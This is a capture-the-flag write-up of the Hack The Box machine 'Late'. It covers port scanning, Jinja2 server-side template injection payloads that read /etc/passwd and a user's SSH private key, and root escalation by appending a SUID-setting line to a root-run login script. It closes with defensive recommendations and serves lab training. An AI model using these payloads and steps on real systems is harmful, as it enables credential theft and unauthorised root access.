# HTB - Late

**IP Address:** `10.10.11.156`  
**OS:** Linux  
**Difficulty:** Easy  
**Tags:** #Flask, #SSTI, #Jinja2, #SSH, #PrivilegeEscalation, #pspy, #SUID

---
## Synopsis

Late is an easy Linux machine running a Flask-based web application vulnerable to **Server-Side Template Injection (SSTI)** in the OCR functionality.  
By exploiting this vulnerability, it is possible to read sensitive files and exfiltrate an SSH private key, allowing access as a low-privileged user.  
Privilege escalation is achieved by abusing a root-executed script with the append-only attribute, appending a command that grants SUID privileges to `/bin/bash` and obtaining a root shell.

---
## Skills Required

- Basic web enumeration  
- Familiarity with Python Jinja2 SSTI exploitation  
- Linux privilege escalation techniques  
- Understanding of file attributes (`lsattr`) and cron/SSH hooks  

## Skills Learned

- Identifying and exploiting **SSTI vulnerabilities**  
- Reading sensitive files via template injection  
- Using `pspy` to monitor root processes  
- Exploiting append-only file attributes for privilege escalation  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

To verify if the host is reachable, we send a single ICMP packet:

```bash
ping -c 1 10.10.11.156
```



The host responds, confirming it is alive.

---
### 1.2 Port Scanning

We run a full TCP port scan to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.156 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Using the identified ports, we perform a targeted scan with version detection and default scripts:

```bash
nmap -p22,80 -sC -sV 10.10.11.156 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```



**Findings:**

| Port | Service | Description |
|------|---------|-------------|
| 22   | SSH     | OpenSSH (version as per scan) |
| 80   | HTTP    | Flask/Jinja2 web application |

At this stage we confirm the target is a **Linux machine running a Flask web app with SSH access**.

---
## 2. Web Enumeration

### 2.1 Technology Fingerprinting

```bash
whatweb http://10.10.11.156
```



The scan indicates a **Flask/Jinja2 stack**.

---
### 2.2 Virtual Host Discovery

During browsing, we find a reference to **image.late.htb**.  
After adding it to `/etc/hosts`, we can access the application:



The vhost provides **OCR functionality** (uploading an image generates a `results.txt` file).




---
## 3. Exploitation

### 3.1 SSTI Probe

We test for SSTI by uploading an image containing `{{7*7}}`:


Result:



The output returns `49`, confirming **SSTI in Jinja2**.

---
### 3.2 Reading `/etc/passwd`

We exploit SSTI to read system files:

```jinja
{{get_flashed_message.__globals__.__builtins__.open("/etc/passwd").read() }}
```



Filter valid shells:

```bash
cat etc_passwd.txt | grep "sh$"
```



Users identified:
- `root`
- `svc_acc`

---
### 3.3 Exfiltrating SSH Private Key

We attempt to read the user’s private key:

```jinja
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read() }}
```



Result file:



We clean the key to ensure a valid PEM format:



---
## 4. Foothold

Using the extracted key, we log in via SSH:

```bash
ssh -i id_rsa svc_acc@10.10.11.156
```



✅ **User flag obtained**

---
## 5. Privilege Escalation

### 5.1 Hunting Writable Files

We search for files owned by `svc_acc` outside common directories:

```bash
find / -user svc_acc 2>/dev/null | grep -vE "proc|run|var|sys|home"
```



We find:

```
/usr/local/sbin/ssh-alert.sh
```

---
### 5.2 Inspecting the Script

```bash
ls -l /usr/local/sbin/ssh-alert.sh
cat /usr/local/sbin/ssh-alert.sh
```



This script is executed as **root** when someone logs in via SSH.

---
### 5.3 Process Monitoring with pspy

We upload `pspy64` and monitor processes:

```bash
chmod +x pspy64
./pspy64
```




When logging in again, we confirm the script is executed by **root**.

---
### 5.4 Exploiting Append-Only Attribute

Attempts to edit fail:



So we inspect attributes:

```bash
lsattr /usr/local/sbin/ssh-alert.sh 
```



The file has the **append-only (`a`)** attribute.  
We cannot overwrite it, but we can append malicious commands.

We append a line to set SUID on `/bin/bash`:

```bash
echo "chmod u+s /bin/bash" > bash.txt
cat bash.txt >> /usr/local/sbin/ssh-alert.sh
```



After logging in again, `/bin/bash` has the SUID bit set.  
We escalate:

```bash
ls -l /bin/bash
bash -p
```




🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected SSH and HTTP.  
2. **Web Enumeration** → Found OCR functionality on vhost `image.late.htb`.  
3. **SSTI Exploitation** → Read sensitive files and extracted SSH private key.  
4. **SSH Access** → Logged in as `svc_acc`.  
5. **Privilege Escalation** → Abused append-only root script to set SUID on `/bin/bash`.  
6. **Root Access** → Obtained full control of the system.

---
## Defensive Recommendations

- Sanitize user input and prevent **SSTI in Jinja2** templates.  
- Do not expose sensitive files (e.g., SSH keys) in applications.  
- Avoid root-owned scripts writable by non-root users.  
- Regularly monitor and audit file attributes with `lsattr`.  
- Prevent insecure hooks on SSH logins.  
- Monitor privilege changes such as unexpected SUID binaries.
